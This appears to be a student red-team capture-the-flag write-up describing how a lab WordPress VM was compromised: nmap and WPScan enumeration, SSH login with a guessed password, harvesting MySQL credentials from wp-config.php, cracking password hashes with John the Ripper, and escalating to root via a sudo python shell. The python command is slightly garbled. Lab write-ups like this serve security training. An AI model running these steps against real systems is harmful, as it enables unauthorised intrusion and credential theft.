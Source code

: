 ## Red Team: Summary of Operations

# Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

- Nmap scan results for each machine reveal the below services and OS details:

  - $ nmap -sV -A 192.168.1.100

![NMAP scan](https://user-images.githubusercontent.com/88005785/156202449-00d3d6a3-2b1a-4f3a-b20a-a435e417e40d.png)

This scan identifies the services below as potential points of entry for Target 1:

- Port 22/TCP Open SSH
- Port 80/TCP Open HTTP
- Port 111/TCP Open rpcbind
- Port 139/TCP Open netbios-ssn
- Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on the Target 1 VM:

- User enumeration 
- Weak user passwords
- No use of salt on hashed passwords
- Misconfigured user privileges

Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

- Flag1.txt: b9bbcb33e11b80be759c4e8448622482d

- Exploit Used
  - WPScan was used to enumerate users on the WordPress site
  - $ wpscan --url http://192.168.1.110/Wordpress --enumerate u

!C:\Users\Nanneys\Final-Project\Images\Enumeration.png

  - After enumerating users, guessed user Michael’s password: michael
  - Connected via SSH using Michael’s credentials.
    - $ ssh michael@192.168.1.110 
  - Found first flag in /var/www/html/service.html directory and file by using following command:
    - $ grep -ir flag1 /var/www 

!C:\Users\Nanneys\Final-Project\Images\Flag1.png

- Flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c

- Exploit Used
  - Used similar commands to search directories and files in Michael’s machine.
  - Search through Michael’s directories uncovered the second flag:

!C:\Users\Nanneys\Final-Project\Images\Flag2.png

- Flag3.txt: afc01ab56b50591e7dccf93122770cd2

- Exploit Used
  - Searching for file name, located the wp-config.php containing Michael’s mysql login credentials, including password: R@v3nSecurity

!C:\Users\Nanneys\Final-Project\Images\SQL_creds.png

  - Logged into mysql with following command
    - $ mysql -u root - p wordpress
  - Ran the following sql commands to enumerate the tables:
    - show databases;
    - use wordpress;
    - show tables;

!C:\Users\Nanneys\Final-Project\Images\mysql_table.png

    - select * from wp_posts;

!C:\Users\Nanneys\Final-Project\Images\Flag3.png

    - select * from wp_users;

!C:\Users\Nanneys\Final-Project\Images\Hashed_passwords.png

  - On the Kali machine, the hashed passwords (displayed above) were cracked using John the Ripper:
    - $ john wp_hashes.txt

!C:\Users\Nanneys\Final-Project\Images\Steve_password.png

  - Steven’s password was obtained: pink84

- Flag4.txt: 715dea6c055b9fe3337544932f2941ce

- Exploit Used
  - Connected via SSH using Steven’s credentials
    - $ ssh steven@192.168.1.110


!C:\Users\Nanneys\Final-Project\Images\Steve_account.png

  - Attempted to switch to root by enumerating sudo privileges:
    - $ sudo -l

!C:\Users\Nanneys\Final-Project\Images\Steve_sudo.png

  - Escalated to root by using the following python command:
    - $ sudo python -c ‘import pty: pty.spawn(*/bin/sh”)’

! C:\Users\Nanneys\Final-Project\Images\Python_command.png

  - With access to root, found the 4th flag:

!C:\Users\Nanneys\Final-Project\Images\Flag4.png
